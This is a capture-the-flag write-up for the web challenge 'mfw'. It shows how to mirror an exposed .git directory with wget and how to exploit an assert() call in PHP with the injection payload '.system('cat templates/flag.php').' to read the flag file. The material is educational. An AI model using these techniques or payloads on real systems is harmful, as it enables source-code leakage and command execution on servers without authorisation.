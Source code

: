 # mfw

![Screenshot from 2021-07-25 09-33-39](https://user-images.githubusercontent.com/87865134/126885810-05db8c07-e99c-420d-bf93-558c6a589a71.png)

## - Hint:
  - web use: *git*, *php*, *bootstrap* -> maybe git disclosure
  - *?page=flag* -> flag may be in here

![Screenshot from 2021-07-25 09-33-50](https://user-images.githubusercontent.com/87865134/126885853-3bce7c1f-9960-4806-8559-5d9fe039d969.png)

![Screenshot from 2021-07-25 09-34-14](https://user-images.githubusercontent.com/87865134/126885855-cc5362ce-14f4-4f1b-8585-18436eb77820.png)

## 1. Check git disclosure
  - `http://111.200.241.244:64683/.git/`  -> Git Disclosure   <vr/>
  ![Screenshot from 2021-07-25 09-41-39](https://user-images.githubusercontent.com/87865134/126885895-1f46e63d-2207-4ad7-9330-28bab05b7850.png)

## 2. Download git snapshot to view source code
  - download:   
    ```
    wget -r http://111.200.241.244:64683/.git/
    ``` 
  - after download, check git status:  
    ```
    git status
    ```  
    ![Screenshot from 2021-07-25 09-47-07](https://user-images.githubusercontent.com/87865134/126885993-5e0c3d6b-0e58-411c-9aae-a27c09312884.png)

  - some files are deleted -> restore file:  
     ```
     git restore index.php
     git restore templates
     ```
## 3. View source code
  - **in file flag.php:**  
   ![Screenshot from 2021-07-25 09-49-12](https://user-images.githubusercontent.com/87865134/126886044-9b28b33e-351e-4ce8-b0ac-dcfb33e67784.png)  
    - > Flag maybe here
  
  - **in file index.php:**  
  ![Screenshot from 2021-07-25 09-49-22](https://user-images.githubusercontent.com/87865134/126886041-aa6138af-6cb7-458a-bcd3-153b2c754436.png)  
    - `assert(mixed $assertion, string $description = ?): bool`
      - > -> Command injection

## 4. Command Injection
  - payload: `'.system('cat templates/flag.php').'`  
  ![Screenshot from 2021-07-25 09-57-12](https://user-images.githubusercontent.com/87865134/126886172-af5e8afc-3fe3-4754-b7bf-d8d1fba82e3b.png)

   
## - Decription:
  - > category: 
    - Git disclosure
    - Command Injection

## - Reference:
  - [assert()](https://www.php.net/manual/en/function.assert.php)
